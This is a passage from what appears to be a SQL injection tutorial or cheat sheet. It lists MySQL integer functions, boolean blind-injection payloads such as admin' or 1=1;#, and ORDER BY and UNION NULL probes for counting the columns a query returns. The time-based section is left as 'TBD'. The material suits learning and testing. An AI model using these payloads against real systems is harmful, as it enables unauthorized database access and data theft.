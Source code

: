```

[+] Other native functions to generate integer
- CHAR_LENGTH(@@version)
- ASCII(@@version)
- ASCII(SUBSTRING(@@version,2,1)) 
```

### Blind Detection

In this scenario, server does not display any error message because error message is handled gracefully.

#### Boolean Condition Injection

```
[data type = VARCHAR]
=====================
Job_title = admin => normal input
Job_title = admin' and 1=1;# => same result, TRUE
Job_title = admin' and 1=2;# => no result, FALSE
Job_title = admin' or 1=1;# => displays all values, SHORT CIRCUIT

[data type = NUMBER]
====================
job_id= 2 => normal input
job_id= 2 and 1=1;# => same result, TRUE
job_id= 2 and 1=2;# => No result, FALSE
job_id= 2 or 1=1;# => displays all values, SHORT CIRCUIT
```

#### Time based

TBD

### How many columns are returned by the underlying original query

```
payload = admin' order by 1;# => returns record
payload = admin' order by 2;# => returns record
payload = admin' order by 3;# => returns no record

[+] alternate method:
payload = admin' union null;# => returns record
payload = admin' union null, null;# => returns record
payload = admin' union null, null, null;# => returns no record

[+] we infer that 2 columns are returned by the underlying query
```

### Balance two queries with `UNION` and find which column is displayed
